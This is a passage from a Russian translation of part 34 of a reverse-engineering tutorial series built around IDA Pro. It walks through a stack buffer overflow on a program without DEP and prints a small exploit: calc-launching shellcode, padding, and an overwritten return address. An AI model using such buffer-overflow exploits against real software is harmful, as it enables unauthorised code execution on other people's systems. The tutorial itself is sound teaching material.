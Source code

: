 ![](.gitbook/assets/34/33.png)

Скажем так - "Это хороший **RET**". Давайте добавим его.

![](.gitbook/assets/34/34.png)

Давайте теперь попробуем с ним.

![](.gitbook/assets/34/35.png)

Я вижу, что программа уже совершает переход, чтобы выполнить мой код **CCCCCCCC**, который я добавил как шеллкод. Сейчас, я бы мог перестроить код, который я хотел бы туда поместить, и выполнить то, что захочу я захочу, потому что здесь нет **DEP**. Единственное, что у программы мало свободного места, потому что я выделил буфер только длиной **30** байт, который мешает мне делать большие вещи.

Я подготовил шеллкод, который запустит калькулятор:

**import** struct shellcode =
**"\xB8\x40\x50\x03\x78\xC7\x40\x04"** + **"calc"** + **"\x83\xC0\x04\x50\x68\x24\x98\x01\x78\x59\xFF\xD1"**

fruta = shellcode + **"A"** \* \(36-len\(shellcode\)\) + **"\x3a\x10\x40"**

\#0x40103a ret

![](.gitbook/assets/34/36.png)

Программа будет "падать", но уже после запуска калькулятора, который является нашей целью.

В следующих частях, мы добавим немного больше упражнений. Некоторые из них будут с **DEP**. Мы также научимся работать с **ROP** и так будем идти шаг за шагом до самой победы.

До встрече в 35 части.

* * *

Автор оригинального текста — Рикардо Нарваха.

Перевод и адаптация на английский  язык — IvinsonCLS.

Перевод и адаптация на русский язык — Яша Яшечкин.

Перевод специально для форума системного и низкоуровневого программирования - WASM.IN

12.03.2018

Источник:

[**http://ricardonarvaja.info/WEB/INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO/34-INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO%20PARTE%2034.7z**](http://ricardonarvaja.info/WEB/INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO/34-INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO%20PARTE%2034.7z)
